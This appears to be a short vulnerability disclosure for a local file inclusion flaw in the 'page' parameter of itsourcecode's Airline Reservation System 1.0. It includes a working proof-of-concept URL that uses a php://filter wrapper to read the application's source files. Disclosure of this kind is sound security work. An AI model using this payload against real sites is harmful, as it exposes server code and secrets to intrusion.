# Vendor

itsourcecode

# Product

Airline Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/03/Airline-Reservation-System-PHP-Project-Source-Code.zip

# Description

In the site's index.php page, due to insufficient filtering of the page parameter, an attacker can construct a special POC to achieve local file inclusion.
<img width="1307" alt="image" src="https://github.com/user-attachments/assets/871c0497-0006-4dfa-829a-a9dad68d3685">

# Poc

```
http://192.168.17.22/index.php?page=php://filter/convert.base64-encode/resource=login
```
<img width="1536" alt="image" src="https://github.com/user-attachments/assets/21c3f42a-2b42-431d-9bbc-c09002edbd27">
